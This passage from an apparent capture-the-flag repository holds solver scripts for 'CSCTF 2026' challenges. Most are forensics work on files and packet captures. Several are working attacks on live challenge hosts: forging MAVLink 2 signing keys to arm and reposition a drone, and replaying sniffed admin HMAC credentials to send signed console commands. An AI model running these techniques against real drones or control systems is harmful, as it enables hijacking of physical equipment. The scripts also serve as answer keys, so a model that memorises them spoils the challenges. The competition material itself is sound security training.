# 3. flight_log.bin: 24-byte header then "TAG:xxxxxxxx" XORed with the mission id as key.
blob = (d / "flight_log.bin").read_bytes()[24:]
key = man["mission_id"].encode()
tag = bytes(c ^ key[i % len(key)] for i, c in enumerate(blob)).decode()
assert tag.startswith("TAG:")
tag = tag[4:]


def haversine(r):
    p1, p2 = math.radians(a_lat), math.radians(b_lat)
    h = math.sin((p2 - p1) / 2) ** 2 + math.cos(p1) * math.cos(p2) * math.sin(math.radians(b_lon - a_lon) / 2) ** 2
    return 2 * r * math.asin(math.sqrt(h))


# 4. The statement does not fix the Earth radius: the tag (last 8 hex of the digest) decides.
for name, r in (("mean 6371000", 6371000), ("WGS84 6378137", 6378137)):
    s = f"{a_lat:.4f}{a_lon:.4f}{b_lat - a_lat:.6f}{b_lon - a_lon:.6f}{haversine(r):.1f}"
    h = hashlib.sha256(s.encode()).hexdigest()
    print(f"R={name}: {s} -> tag {h[-8:]} (expected {tag}) {'OK' if h[-8:] == tag else ''}", file=sys.stderr)
    if h[-8:] == tag:
        print("CSCTF{" + h[:16] + "}")
~~~~

### Polyglot Requiem — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""polyglot-requiem: PNG+ZIP polyglot -> SQLite deleted row -> assetsignd's seal scheme.

Usage: python3 -I solve.py ../files/flight-telemetry-sdk
Nothing is executed: the PNG is parsed by hand, the ZIP is read in memory, the SQLite
file is searched as raw bytes (the row was deleted, SQLite would not show it), and the
seal scheme of `assetsignd` (found by static analysis) is re-implemented:
    msg = reverse(raw_bytes(tag)) || epoch as 8-byte little-endian
    key = SHA-256(msg);  out[i] = in[i] XOR key[i mod 32]
"""
import hashlib, io, struct, subprocess, sys, zipfile
from pathlib import Path

repo = Path(sys.argv[1])
png = (repo / "assets/telemetry_icon.png").read_bytes()

# 1. Walk the PNG chunks: tEXt "Provenance" holds the tag; the ZIP is appended after IEND.
off, tag = 8, None
while True:
    n, typ = struct.unpack(">I4s", png[off:off + 8])
    if typ == b"tEXt":
        k, _, v = png[off + 8:off + 8 + n].partition(b"\0")
        if k == b"Provenance":
            tag = bytes.fromhex(v.decode())
    off += 12 + n
    if typ == b"IEND":
        break
z = zipfile.ZipFile(io.BytesIO(png[off:]))                  # the "trailing data" is a ZIP
db = z.read("telemetry_cache.db")
print(f"tag={tag.hex()} zip members={z.namelist()}", file=sys.stderr)

# 2. Deleted row: the cell is still in the page. Record = hdr_len, 0 (NULL id), text, blob.
i = db.index(b"ci_provenance_seal")
stype = db[i - 1]                                           # serial type of the blob column
ct = db[i + 18:i + 18 + (stype - 12) // 2]
print(f"deleted row ci_provenance_seal: {len(ct)}-byte blob", file=sys.stderr)

# 3. Epoch = timestamp of the commit that added the icon (all commits share it anyway).
epoch = int(subprocess.run(
    ["git", "--git-dir", str(repo / ".git"), "log", "-1", "--format=%ct", "--", "assets/telemetry_icon.png"],
    capture_output=True, text=True, check=True).stdout)

key = hashlib.sha256(tag[::-1] + struct.pack("<Q", epoch)).digest()
print(bytes(c ^ key[j % 32] for j, c in enumerate(ct)).decode())
~~~~

### Redline — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""redline: diff the tracked changes of a .docx (read as a zip of XML, never opened in Word).

Usage: python3 -I solve.py CC-11_excursion_directive.docx
"""
import re, sys, zipfile
import xml.etree.ElementTree as ET

W = "{http://schemas.openxmlformats.org/wordprocessingml/2006/main}"
z = zipfile.ZipFile(sys.argv[1])
core = z.read("docProps/core.xml").decode()
print("creator         :", re.search(r"<dc:creator>(.*?)</dc:creator>", core).group(1))
print("lastModifiedBy  :", re.search(r"<cp:lastModifiedBy>(.*?)</cp:lastModifiedBy>", core).group(1))
for c in ET.fromstring(z.read("word/comments.xml")).iter(W + "comment"):
    print("comment         :", c.get(W + "author"), "-", "".join(t.text for t in c.iter(W + "t")))

body = ET.fromstring(z.read("word/document.xml"))
original, current = [], []
for p in body.iter(W + "p"):
    o = c = ""
    # walk runs, noting whether each sits inside w:del or w:ins
    for node in p:
        if node.tag == W + "r":
            t = "".join(x.text or "" for x in node.iter(W + "t"))
            o += t; c += t
        elif node.tag == W + "del":
            o += "".join(x.text or "" for x in node.iter(W + "delText"))
        elif node.tag == W + "ins":
            c += "".join(x.text or "" for x in node.iter(W + "t"))
    original.append(o); current.append(c)
print("\n--- ORIGINAL (approved, deleted text restored) ---\n" + "\n".join(original))
print("\n--- DELIVERED (tracked changes accepted) ---\n" + "\n".join(current))
print("\nflag:", *re.findall(r"CSCTF\{[^}]*\}", "\n".join(original)))
~~~~

### Signal Reconciliation — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 — Signal Reconciliation (forensics/easy)
Produce the canonical reconciliation report and derive the Base32 flag.

Pure Python, no external dependencies.

Usage:
    python3 solve.py [path/to/flight.ndjson]

KAT (all-zero 601 rows):
    report = 14329 bytes
    SHA-256 = cc8c52dce750951980bb402846ff761fa2b471a9fbc20b5cb0c2a6ef675787f1
"""

import sys
import json
import hashlib
import base64

NDJSON = sys.argv[1] if len(sys.argv) > 1 else "files/flight.ndjson"


def load(path):
    rows = []
    with open(path, encoding="utf-8") as f:
        for line in f:
            line = line.strip()
            if line:
                rows.append(json.loads(line))
    return rows


def reconcile(rows):
    n = len(rows)
    assert n == 601, f"Expected 601 rows, got {n}"

    ve    = [r["ve_mmps"]  for r in rows]
    vn    = [r["vn_mmps"]  for r in rows]
    gps_e = [r["gps_e_mm"] for r in rows]
    gps_n = [r["gps_n_mm"] for r in rows]

    # INS integration — exact integer arithmetic, no floats
    ins_e = [0] * 601
    ins_n = [0] * 601
    for i in range(600):
        ins_e[i+1] = ins_e[i] + (ve[i] + ve[i+1]) // 20
        ins_n[i+1] = ins_n[i] + (vn[i] + vn[i+1]) // 20

    # Residuals
    res_e = [gps_e[i] - ins_e[i] for i in range(601)]
    res_n = [gps_n[i] - ins_n[i] for i in range(601)]

    # Qualifying windows Q(i) for i = 0..591
    qset = []
    for i in range(592):
        # Cond 1: magnitude >= 25000 mm in every sample of the 10-sample window
        if not all(res_e[j]**2 + res_n[j]**2 >= 625_000_000 for j in range(i, i+10)):
            continue
        # Cond 2: east residual monotonically increasing (≥1000 mm/step),
        #         north residual stable (|Δ| ≤ 500 mm/step)
        if not all(
            res_e[j+1] - res_e[j] >= 1000 and abs(res_n[j+1] - res_n[j]) <= 500
            for j in range(i, i+9)
        ):
            continue
        qset.append(i)

    # Decision
    final_sq = res_e[600]**2 + res_n[600]**2
    if qset and final_sq >= 10_000_000_000:
        decision = "QUARANTINE_GNSS_PROFILE"
    else:
        decision = "REVIEW_ONLY"

    qset_str = ",".join(str(x) for x in qset) if qset else "NONE"

    # Canonical 603-line report
    report_lines = []
    report_lines.append(
        f"RECONCILIATION/2|samples=601|qset={qset_str}|decision={decision}"
    )
    for i in range(601):
        report_lines.append(
            f"E|{i}|{rows[i]['t_ms']}|{ins_e[i]}|{ins_n[i]}"
            f"|{gps_e[i]}|{gps_n[i]}|{res_e[i]}|{res_n[i]}"
        )
    report_lines.append(
        f"SUMMARY|qset={qset_str}|final_res_e={res_e[600]}"
        f"|final_res_n={res_n[600]}|decision={decision}"
    )

    assert len(report_lines) == 603
    report = "\n".join(report_lines) + "\n"
    return report.encode("ascii"), qset, decision, res_e[600], res_n[600]


def main():
    print(f"[*] Loading {NDJSON}")
    rows = load(NDJSON)
    print(f"    {len(rows)} samples loaded")

    report_bytes, qset, decision, final_re, final_rn = reconcile(rows)

    print(f"[*] QSET size    : {len(qset)}")
    if qset:
        print(f"    First 5      : {qset[:5]}")
        print(f"    Last  5      : {qset[-5:]}")
    print(f"[*] Decision     : {decision}")
    print(f"[*] final_res_e  : {final_re}")
    print(f"[*] final_res_n  : {final_rn}")
    print(f"[*] Report bytes : {len(report_bytes)}")

    digest = hashlib.sha256(report_bytes).digest()
    first24 = digest[:24]
    flag_body = base64.b32encode(first24).decode("ascii").rstrip("=")

    print(f"\n[+] SHA-256      : {digest.hex()}")
    print(f"[+] Base32(24B)  : {flag_body}")
    print(f"[+] FLAG         : CSCTF{{{flag_body}}}")


if __name__ == "__main__":
    main()
~~~~

### Silent Breaker — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""silent-breaker: build the containment report from the case files and submit it.

Usage: python3 -I solve.py http://<host>:<port> [--submit]
Without --submit only the free GET routes (/files, /events) are used and the report is printed.
With --submit it also calls /confirm-target (2 attempts!), /query/vpn-window and /submit.
Each instance is a different case, so everything is derived from that instance's files.
"""
import json, re, struct, sys, urllib.parse, urllib.request
from datetime import datetime, timezone

base = sys.argv[1].rstrip("/")


def get(path):
    with urllib.request.urlopen(base + path, timeout=20) as r:
        return r.read()


def post(path, obj):
    req = urllib.request.Request(base + path, json.dumps(obj).encode(), {"Content-Type": "application/json"})
    with urllib.request.urlopen(req, timeout=20) as r:
        return json.load(r)


# 1. Signalling feed -> subscribers using a GT outside GT-0000..GT-0999, joined with the roster.
events = json.loads(get("/events"))["signalling_events"]
bad = {e["msisdn"] for e in events if not (m := re.fullmatch(r"GT-(\d{4})(?:-.*)?", e["gt"])) or int(m.group(1)) > 999}
roster = json.loads(get("/files/roster.json"))["employees"]
targets = [e for e in roster if e["msisdn"] in bad and e["ot_vpn_access"]]   # only staff with OT-VPN access can matter
assert len(targets) == 1, targets
emp = targets[0]["employee_id"]
print("compromised employee:", emp, file=sys.stderr)

# 2. Historian log -> the QUALITY=SUSPECT run and its frozen value.
log = get("/files/hmi_monitoring.log").decode()
suspect = re.findall(r"IOA=(0x[0-9a-f]+) VALUE=([\d.]+)A QUALITY=SUSPECT", log)
ioa, frozen = suspect[0]
print(f"suspect run: IOA {ioa}, frozen current {frozen}", file=sys.stderr)

# 3. pcap -> C_SC_NA_1 (type 45) activation from the master (to port 2404): IOA, SCO, wire time.
pcap = get("/files/iec104_capture.pcap")
off = 24
cmd = None
while off + 16 <= len(pcap):
    sec, usec, incl, _orig = struct.unpack("<IIII", pcap[off:off + 16])
    pkt = pcap[off + 16:off + 16 + incl]
    off += 16 + incl
    ihl = (pkt[14] & 15) * 4
    tcp = pkt[14 + ihl:]
    payload = tcp[(tcp[12] >> 4) * 4:]
    dport = struct.unpack(">H", tcp[2:4])[0]
    if dport == 2404 and len(payload) >= 16 and payload[0] == 0x68 and payload[6] == 45 and payload[8] & 0x3F == 6:
        ioa_w = payload[12] | payload[13] << 8 | payload[14] << 16
        cmd = (f"{ioa_w:x}", "ON" if payload[15] & 1 else "OFF", datetime.fromtimestamp(sec, timezone.utc).strftime("%H:%M"))
assert cmd and int(cmd[0], 16) == int(ioa, 16), (cmd, ioa)
print("breaker command:", cmd, file=sys.stderr)

report = {"ioa_address": cmd[0], "command_qualifier": cmd[1], "command_time_utc": cmd[2],
          "telemetry_status": frozen, "vpn_session_id": None}
if "--submit" in sys.argv:
    print(post("/confirm-target", {"employee_id": emp}), file=sys.stderr)
    vpn = json.loads(get("/query/vpn-window"))["vpn_sessions"]
    report["vpn_session_id"] = next(s["session_id"] for s in vpn if s["employee_id"] == emp)
    print(post("/submit", report))
else:
    print(json.dumps(report | {"vpn_session_id": "<from /query/vpn-window after confirm-target>", "employee_id": emp}, indent=1))
~~~~

### Tone Burst — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""tone-burst: demodulate a 2-FSK WAV (1000 Hz = 0, 2000 Hz = 1, 50 baud) to ASCII.

Usage: python3 -I solve.py ../files/tone-burst.wav   (needs numpy; no playback)
"""
import sys, wave
import numpy as np

w = wave.open(sys.argv[1])
x = np.frombuffer(w.readframes(w.getnframes()), dtype="<i2").astype(float)
sr = w.getframerate()
t = np.arange(len(x)) / sr


def tone(f, win=16):
    """Magnitude of the f-Hz component (complex demodulation + moving average)."""
    return np.abs(np.convolve(x * np.exp(-2j * np.pi * f * t), np.ones(win) / win, "same"))


bit = tone(2000) - tone(1000) > 0                      # True = 2000 Hz

# Bit period: the most common gap between tone changes (= 160 samples = 20 ms = 50 baud).
chg = np.where(np.diff(bit.astype(int)))[0]
gaps = np.diff(chg)
period = int(np.bincount(gaps[(gaps > 100) & (gaps < 200)]).argmax())
phase = int(np.median(chg % period))
first = phase + period * round((0.2 * sr - phase) / period)   # burst starts ~0.2 s
bits = [int(bit[i + period // 2]) for i in range(first, len(x) - period, period)]
print(f"baud={sr / period:.0f} bits={len(bits)}", file=sys.stderr)

# Preamble is 0xAA.. then 0x7E sync; find the byte alignment that gives printable text.
for shift in range(8):
    s = "".join(chr(int("".join(map(str, bits[i:i + 8])), 2)) for i in range(shift, len(bits) - 7, 8))
    if "CSCTF{" in s:
        print(s[s.index("CSCTF{"):].split("}")[0] + "}")
~~~~

### Dark Anchorage Reconciliation — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""Dark Anchorage Reconciliation - build the KALNET-RECON-1 report from the 4 evidence files and POST it.
Usage: solve.py http://HOST:PORT [--post]"""
import json, csv, math, statistics as st, sys, urllib.request
from datetime import datetime, timedelta
B = sys.argv[1] if len(sys.argv) > 1 else "http://w01.ctf.chronos-security.ro:36289"
get = lambda p: urllib.request.urlopen(B + p).read().decode()
R = 6378137
fault = dict(l.split("=") for l in get("/files/cable-fault.txt").splitlines() if "=" in l)
lat0, lon0 = float(fault["cable_lat"]), float(fault["cable_lon"])
def loc(la, lo): return (R*math.cos(math.radians(lat0))*math.radians(lo-lon0), R*math.radians(la-lat0))
P = lambda s: datetime.strptime(s, "%Y-%m-%dT%H:%M:%SZ")
F = lambda d: d.strftime("%Y-%m-%dT%H:%M:%SZ")
rad_txt = get("/files/radar.csv").splitlines()
off = int([l for l in rad_txt if "utc_offset" in l][0].split("=")[1])
rad = {}
for r in csv.DictReader([l for l in rad_txt if not l.startswith("#")]):
    rad.setdefault(r["radar_track"], {})[P(r["local_time"]) - timedelta(minutes=off)] = loc(float(r["lat"]), float(r["lon"]))
ais = {}
for l in get("/files/ais.ndjson").splitlines():
    j = json.loads(l)
    if j["type"] == "position": ais.setdefault(j["mmsi"], {})[P(j["utc"])] = loc(j["lat"], j["lon"])
def resid(t, m):
    ks = sorted(set(rad[t]) & set(ais[m]))
    return ks, [(ais[m][k][0]-rad[t][k][0], ais[m][k][1]-rad[t][k][1]) for k in ks]
def score(t, m):
    ks, rs = resid(t, m)
    return st.median(math.hypot(*r) for r in rs) if rs else 1e9
assoc = {t: min(ais, key=lambda m: score(t, m)) for t in sorted(rad)}
assert len(set(assoc.values())) == 16, assoc
print({t: round(score(t, m), 1) for t, m in assoc.items()}, file=sys.stderr)
# divergence
best = None
for t, m in assoc.items():
    ks, rs = resid(t, m); mag = [math.hypot(*r) for r in rs]
    i = 0
    while i < len(ks):
        if mag[i] < 250: i += 1; continue
        j = i
        while j+1 < len(ks) and mag[j+1] >= 250 and abs(rs[j+1][0]-rs[j][0]) <= 15 and abs(rs[j+1][1]-rs[j][1]) <= 15: j += 1
        if j-i+1 >= 4 and (best is None or j-i > best[0]): best = (j-i, t, m, ks[i], ks[j], rs[i:j+1])
        i = j+1
_, bt, bm, s, e, rr = best
mean = lambda v: math.floor(abs(sum(v)/len(v)) + .5) * (1 if sum(v) >= 0 else -1)
div = {"mmsi": bm, "start_utc": F(s), "end_utc": F(e), "ais_minus_radar_east_m": mean([r[0] for r in rr]), "ais_minus_radar_north_m": mean([r[1] for r in rr])}
# CPA: radar segments
cp = None
for t, d in rad.items():
    ks = sorted(d)
    for a, b in zip(ks, ks[1:]):
        p, q = d[a], d[b]; v = (q[0]-p[0], q[1]-p[1]); vv = v[0]**2 + v[1]**2
        u = 0 if vv == 0 else min(1, max(0, -(p[0]*v[0]+p[1]*v[1])/vv))
        dist = math.hypot(p[0]+u*v[0], p[1]+u*v[1]); tt = a + (b-a)*u
        if cp is None or dist < cp[0] - 1e-9: cp = (dist, tt, t)
dist, tt, ct = cp
import calendar
sec = calendar.timegm(tt.utctimetuple()) + tt.microsecond/1e6; fl = math.floor(sec); fr = sec - fl
tt = datetime(1970,1,1) + timedelta(seconds=fl + (1 if fr > .5 else 0))
rep = {"version": "KALNET-RECON-1", "radar_utc_offset_minutes": off,
       "associations": [{"radar_track": t, "mmsi": assoc[t]} for t in sorted(assoc)],
       "divergence": div,
       "closest_approach": {"mmsi": assoc[ct], "utc": F(tt), "distance_m": math.floor(dist*10+.5)/10}}
print(json.dumps(rep))
if "--post" in sys.argv:
    req = urllib.request.Request(B + "/reconcile", json.dumps(rep).encode(), {"Content-Type": "application/json"})
    try: print(urllib.request.urlopen(req).read().decode())
    except urllib.error.HTTPError as ex: print(ex.code, ex.read().decode())
~~~~

### Ghost Signal — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""ghost-signal: cross-validate the SS7/Diameter/billing evidence and derive the marker.

Usage: python3 -I solve.py ../files
Requires tshark on PATH to read the two pcaps (SS7/MAP over M3UA, Diameter); the
billing export is read directly as JSON. Nothing beyond these three files is used.
"""
import hashlib
import json
import subprocess
import sys
from pathlib import Path

d = Path(sys.argv[1])


def tshark_fields(pcap, *fields):
    """List of dicts, one per frame that has at least one of the requested fields set."""
    args = ["tshark", "-r", str(pcap), "-T", "fields", "-E", "separator=\t"]
    for f in fields:
        args += ["-e", f]
    out = subprocess.run(args, capture_output=True, text=True, check=True).stdout
    rows = []
    for line in out.splitlines():
        cells = line.split("\t")
        row = dict(zip(fields, cells + [""] * (len(fields) - len(cells))))
        if any(row.values()):
            rows.append(row)
    return rows


# 1. Billing export: find the anomalous events -- every one carries an "anomaly" field.
billing = json.loads((d / "billing_events.json").read_text())
anomalous = [e for e in billing["events"] if "anomaly" in e]
sessions = {e["session_id"] for e in anomalous}
imsis = {e["imsi"] for e in anomalous}
assert len(sessions) == 1 and len(imsis) == 1, "more than one anomalous thread -- narrow it down first"
session_id, imsi = sessions.pop(), imsis.pop()
first_ts = min(e["timestamp"] for e in anomalous)
print(f"billing: session={session_id} imsi={imsi} first_anomalous_ts={first_ts}", file=sys.stderr)

# 2. SS7 (MAP over M3UA/SCCP): the same IMSI shows up in an updateLocation from a GT that
#    only appears once the attack window starts (49211, then 49311) -- never in the baseline
#    traffic (which stays in the 49100-49144 range).
ss7 = tshark_fields(d / "ss7_capture.pcap", "frame.time_epoch", "sccp.calling.digits", "e212.imsi")
ss7_imsi_rows = [r for r in ss7 if r["e212.imsi"]]
assert all(r["e212.imsi"] == imsi for r in ss7_imsi_rows) and ss7_imsi_rows, "SS7 IMSI mismatch"
attack_gts = {r["sccp.calling.digits"] for r in ss7 if int(float(r["frame.time_epoch"])) >= first_ts}
print(f"SS7: IMSI confirmed in updateLocation; attack-window calling GTs = {sorted(attack_gts)}", file=sys.stderr)

# 3. Diameter: the exact Session-Id AVP on the wire, and the rogue Origin-Host it was served from.
dia = tshark_fields(d / "diameter_capture.pcap", "diameter.Session-Id", "diameter.Origin-Host",
                     "diameter.Subscription-Id-Data")
match = [r for r in dia if r["diameter.Session-Id"] == session_id]
assert match and all(r["diameter.Subscription-Id-Data"] == imsi for r in match if r["diameter.Subscription-Id-Data"])
rogue_hosts = {r["diameter.Origin-Host"] for r in match} - {"hss.eastern-tele.ro"}
print(f"Diameter: Session-Id confirmed on the wire; rogue Origin-Host(s) = {sorted(rogue_hosts)}", file=sys.stderr)

# 4. Flag: sha256("<imsi>:<full_diameter_session_id>:<unix_timestamp>")[:8]
text = f"{imsi}:{session_id}:{first_ts}"
digest = hashlib.sha256(text.encode()).hexdigest()
print(f"serialized: {text}", file=sys.stderr)
print("CSCTF{" + digest[:8] + "}")
~~~~

### Grid Watch — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 - Grid-Watch (network/hard)

Forge a MAVLink 2 signed reposition command the drone accepts:

  1. Calibrate the airframe RTC from capture.tlog. Pairing each tlog
     record timestamp (us) with the packet's 48-bit signing timestamp
     (10 us ticks) gives a constant slope of 100001.7 ticks/s, i.e.
     +17 ppm, and
         signing_ticks = round((unix_time - 1733965123) * 100001.7)
     with commissioning epoch 1733965123 (2024-12-12 00:58:43 UTC).
     Validated live: this predicts the drone's signing timestamps at
     connect time to within the network latency.

  2. Derive the provisioning key exactly as in provisioning_note.md:
         prov_key = HKDF-SHA256(
             ikm  = b"CX-FALCON-9951" || uint64_le(1733965123),
             salt = bytes.fromhex(<PROV NONCE announced at connect>),
             info = b"CX-PROV/v1", L = 32)

  3. In one TCP connection: send SETUP_SIGNING (msg 256) carrying a new
     session key of our choice, initial_timestamp = its own signature
     timestamp, the packet signed with prov_key (link_id 249, source
     255/190 as in the capture). The drone answers
     "signing re-provisioned: new key active".

  4. Signed with the new key, in the normal flight order:
     COMMAND_LONG 176 (DO_SET_MODE, param1=1, param2=4 = GUIDED),
     COMMAND_LONG 400 (ARM, param1=1),
     COMMAND_LONG 192 (DO_REPOSITION, param5/6/7 = lat/lon/alt).
     The drone replies with a STATUSTEXT containing the flag.

Every signed packet uses a fresh RTC timestamp (monotonically
increasing), so nothing is a replay of the capture.

Requires: pymavlink (common dialect, for message packing / CRC extras).

Usage:
    python3 solve.py [host] [port]
"""

import hashlib
import hmac
import io
import socket
import struct
import sys
import time

from pymavlink.dialects.v20 import common as m

HOST = sys.argv[1] if len(sys.argv) > 1 else "w02.ctf.chronos-security.ro"
PORT = int(sys.argv[2]) if len(sys.argv) > 2 else 32773

EPOCH = 1733965123          # commissioning epoch, seconds (from the fit)
RATE_TICKS_PER_SEC = 100001.7   # nominal 100000 ticks/s, +17 ppm
LINK_ID = 249               # link_id used by the GCS in capture.tlog
SERIAL = b"CX-FALCON-9951"  # serial from the drone's STATUSTEXT


def hkdf_sha256(ikm, salt, info, length=32):
    prk = hmac.new(salt, ikm, hashlib.sha256).digest()
    okm, t, counter = b"", b"", 1
    while len(okm) < length:
        t = hmac.new(prk, t + info + bytes([counter]), hashlib.sha256).digest()
        okm += t
        counter += 1
    return okm[:length]


def rtc_ticks():
    return int(round((time.time() - EPOCH) * RATE_TICKS_PER_SEC))


def crc_accumulate(data, crc=0xFFFF):
    for b in data:
        tmp = b ^ (crc & 0xFF)
        tmp = (tmp ^ ((tmp << 4) & 0xFF)) & 0xFF
        crc = ((crc >> 8) ^ ((tmp << 8) & 0xFFFF) ^
               ((tmp << 3) & 0xFFFF) ^ (tmp >> 4)) & 0xFFFF
    return crc


def build_signed(msg, key, timestamp, seq=0):
    """Pack a MAVLink 2 message and append a signing signature (13 B):
    link_id, 48-bit timestamp (10 us ticks, LE), SHA256-48 over
    key || packet (incl. CRC) || link_id || timestamp."""
    dummy = m.MAVLink(io.BytesIO(), srcSystem=255, srcComponent=190)
    packed = msg.pack(dummy)
    payload_len = packed[1]
    payload = packed[10:10 + payload_len]
    header = (struct.pack("<BBBBBBB", 0xFD, payload_len, 1, 0, seq, 255, 190)
              + msg.get_msgId().to_bytes(3, "little"))
    crc = crc_accumulate(header[1:] + payload)
    crc = crc_accumulate(bytes([msg.crc_extra]), crc)
    packet = header + payload + struct.pack("<H", crc)
    signature = hashlib.sha256(
        key + packet + bytes([LINK_ID]) + timestamp.to_bytes(6, "little")
    ).digest()[:6]
    return packet + bytes([LINK_ID]) + timestamp.to_bytes(6, "little") + signature


def parse_stream(data):
    msgs, off = [], 0
    while off + 10 <= len(data):
        if data[off] != 0xFD:
            break
        payload_len = data[off + 1]
        incompat = data[off + 2]
        msgid = data[off + 7] | (data[off + 8] << 8) | (data[off + 9] << 16)
        payload = data[off + 10:off + 10 + payload_len]
        pos = off + 10 + payload_len + 2
        if incompat & 1:
            pos += 13  # skip signature
        msgs.append((msgid, payload))
        off = pos
    return msgs


def recv_for(sock, seconds):
    sock.settimeout(0.3)
    end, buf = time.time() + seconds, b""
    while time.time() < end:
        try:
            chunk = sock.recv(4096)
            if not chunk:
                break
            buf += chunk
        except socket.timeout:
            pass
    return buf


def main():
    sock = socket.create_connection((HOST, PORT), timeout=5)
    msgs = parse_stream(recv_for(sock, 1.0))
    nonce_hex = None
    for msgid, payload in msgs:
        if msgid == 253 and b"PROV NONCE" in payload:
            nonce_hex = payload[1:].split(b"\x00")[0].decode().split()[-1]
    if nonce_hex is None:
        raise SystemExit("no PROV NONCE announced by the drone")
    print(f"[*] session nonce: {nonce_hex}")

    prov_key = hkdf_sha256(SERIAL + struct.pack("<Q", EPOCH),
                           bytes.fromhex(nonce_hex), b"CX-PROV/v1")
    new_key = hashlib.sha256(b"gridwatch-session-key-v1").digest()
    print(f"[*] prov_key: {prov_key.hex()}")

    state = {"last_ts": 0, "seq": 0}

    def receive(label):
        replies = parse_stream(recv_for(sock, 2.5))
        for msgid, payload in replies:
            if msgid == 253:
                text = payload[1:].split(b"\x00")[0].decode(errors="replace")
                print(f"[{label}] STATUSTEXT: {text}")
            elif msgid == 0:
                mode = struct.unpack("<I", payload[:4])[0]
                print(f"[{label}] HEARTBEAT custom_mode={mode}")
            elif msgid == 77:
                print(f"[{label}] COMMAND_ACK payload={payload.hex()}")
        return replies

    def send(msg, label, key):
        ts = max(rtc_ticks(), state["last_ts"] + 1)
        state["last_ts"] = ts
        sock.sendall(build_signed(msg, key, ts, state["seq"]))
        state["seq"] += 1
        print(f">>> {label} (ts={ts})")
        return receive(label)

    # 1. Re-provision signing: initial_timestamp == signature timestamp.
    ts = rtc_ticks()
    state["last_ts"] = ts
    sock.sendall(build_signed(
        m.MAVLink_setup_signing_message(1, 1, new_key, ts),
        prov_key, ts, state["seq"]))
    state["seq"] += 1
    print(f">>> SETUP_SIGNING (ts={ts})")
    receive("SETUP_SIGNING")

    # 2. GUIDED, arm, reposition -- all signed with the new key.
    send(m.MAVLink_command_long_message(1, 1, 176, 0, 1, 4, 0, 0, 0, 0, 0),
         "DO_SET_MODE GUIDED", new_key)
    send(m.MAVLink_command_long_message(1, 1, 400, 0, 1, 0, 0, 0, 0, 0, 0),
         "ARM", new_key)
    replies = send(m.MAVLink_command_long_message(
        1, 1, 192, 0, 0, 0, 0, 0, 45.6, 24.1, 100),
        "DO_REPOSITION", new_key)

    for msgid, payload in replies:
        if msgid == 253 and b"CSCTF{" in payload:
            print(payload[1:].split(b"\x00")[0].decode())
            break
    sock.close()


if __name__ == "__main__":
    main()
~~~~

### Hard Landing — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""Hard Landing - recover the hijacked administrator HMAC session from the
capture (login is plaintext HTTP), then forge a signed recovery command
against the live console.

Usage:
    python3 -I solve.py ../files/console.pcapng http://w03.ctf.chronos-security.ro:PORT
"""
import hmac
import hashlib
import json
import subprocess
import sys
import time
import urllib.error
import urllib.request


def extract_admin_credentials(pcap_path):
    """Pull {session, key} from the plaintext /api/login response for the
    administrator role (HTTP, no TLS -> trivially sniffable)."""
    out = subprocess.check_output(
        ["tshark", "-r", pcap_path, "-Y", "http.response", "-T", "fields",
         "-e", "http.file_data"],
        text=True,
    )
    for line in out.splitlines():
        line = line.strip()
        if not line:
            continue
        try:
            obj = json.loads(bytes.fromhex(line.replace(":", "")).decode())
        except (ValueError, UnicodeDecodeError):
            continue
        if obj.get("role") == "administrator":
            return obj["session"], obj["key"]
    raise RuntimeError("administrator login response not found")


def sign_command(key_hex, body_json, timestamp):
    key = bytes.fromhex(key_hex)
    canonical = f"POST\n/api/command\n{timestamp}\n{body_json}"
    return hmac.new(key, canonical.encode(), hashlib.sha256).hexdigest()


def main():
    pcap_path, base_url = sys.argv[1], sys.argv[2].rstrip("/")

    session, key_hex = extract_admin_credentials(pcap_path)
    print(f"[+] recovered session : {session}")
    print(f"[+] recovered key     : {key_hex}")

    # GET /api/status documents the safe recovery command and canonical format.
    with urllib.request.urlopen(f"{base_url}/api/status", timeout=10) as r:
        status = json.load(r)
    print(f"[+] safe recovery cmd : {status['request']['body']}")

    body = json.dumps({"cmd": "RETURN_TO_PAD", "pad": "A1"}, separators=(",", ":"))
    ts = str(int(time.time()))
    sig = sign_command(key_hex, body, ts)

    req = urllib.request.Request(
        f"{base_url}/api/command",
        data=body.encode(),
        headers={
            "Content-Type": "application/json",
            "X-Session": session,
            "X-Timestamp": ts,
            "X-Signature": sig,
        },
        method="POST",
    )
    try:
        with urllib.request.urlopen(req, timeout=10) as r:
            print(r.read().decode())
    except urllib.error.HTTPError as e:
        print(e.code, e.read().decode())


if __name__ == "__main__":
    main()
~~~~

### Radar Silence — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""Radar Silence - rebuild the bearer token exfiltrated over DNS from RDR37.
Usage: python3 -I solve.py ../files/radar-silence.pcapng
"""
import base64, re, subprocess, sys

pcap = sys.argv[1]
out = subprocess.check_output(
    ["tshark", "-r", pcap, "-Y", "ip.src==192.0.2.37 && dns.flags.response==0",
     "-T", "fields", "-e", "dns.qry.name"], text=True)

chunks = {}
for name in out.split():
    m = re.fullmatch(r"([a-z2-7]+)\.(\d{2})\.update\.svc-telemetry\.example", name)
    if m:
        chunks[int(m.group(2))] = m.group(1)

b32 = "".join(chunks[i] for i in sorted(chunks)).upper()
b32 += "=" * (-len(b32) % 8)
token = base64.b32decode(b32).decode()
assert re.fullmatch(r"[0-9a-f]{32}", token)
print(f"CSCTF{{rdr37_rotation_{token}}}")
~~~~

### Severed Link — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""severed-link: pull the rotated MAVLink 2 signing key from the recording, then
authenticate as the operator against the live uplink gateway.

Usage: python3 -I solve.py ../files/mission.tlog <host> <port>

Step 1 only reads the recording (never executes it). Step 2 opens a plain TCP
connection to the live gateway and speaks MAVLink 2 to it -- that is the
challenge itself ("show that an outsider can take the operator's place").
"""
import datetime
import socket
import struct
import sys
import time

EPOCH_2015 = datetime.datetime(2015, 1, 1, tzinfo=datetime.timezone.utc)
X25_INIT = 0xFFFF


# ---------------------------------------------------------------- MAVLink 2 codec
def x25crc(buf, crc=X25_INIT):
    for b in buf:
        tmp = b ^ (crc & 0xFF)
